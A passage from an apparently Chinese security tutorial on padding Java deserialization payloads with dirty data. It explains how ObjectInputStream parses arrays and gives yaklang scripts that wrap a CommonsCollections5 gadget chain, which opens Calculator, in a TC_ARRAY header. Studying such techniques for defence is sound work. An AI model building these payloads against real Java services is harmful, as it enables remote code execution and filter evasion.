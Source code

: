 **TC_ARRAY**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
#   
  
readObject0的执行流程是先读对象类型，再根据类型采取不同的处理方式，如类型为ARRAY使用readArray处理。readArray的执行流程是，读classDesc，读长度，创建数组，根据数组长度，循环readObject读取数组元素。  
  
所以只要在payload前加一个array头就可以随便塞垃圾数据了，再将gadget作为最后一个元素，所以最终的payload类似这种：[]Object{null,null,null,........,gadget}  
  
在构造payload前需要准备一下：  
1. 构造classDesc  
  
用java代码生成一个序列化的Object[]对象：rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==  
，  
  
编写yaklang脚本读取其中的classDesc  
```
objArrayIns = yso.GetJavaObjectFromBytes(codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~
```  
```

```  
1. 数组长度  
  
这是java源码：  
```
public final int readInt() throws IOException {
    int ch1 = in.read();
    int ch2 = in.read();
    int ch3 = in.read();
    int ch4 = in.read();
    if ((ch1 | ch2 | ch3 | ch4) < 0)
        throw new EOFException();
    return ((ch1 << 24) + (ch2 << 16) + (ch3 << 8) + (ch4 << 0));
}
```  
```

```  
  
数组长度是一个int，占4个字节，使用大端存储，测试时可以暂时使用b"\x00\x00\x00\x02"。  
  
编写脚本：  
```
objArrayIns = yso.GetJavaObjectFromBytes(codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~
dirtyData = ""
dirtyData += "\x75"// TC_ARRAY
dirtyData += string(descSer[4:]) // 去掉magic header
dirtyData += "\x00\x00\x00\x02" // 数组长度是2
res = string(payload[:4]) + dirtyData+ string(payload[4:])
println(codec.EncodeBase64(res))
```  
```

```  
  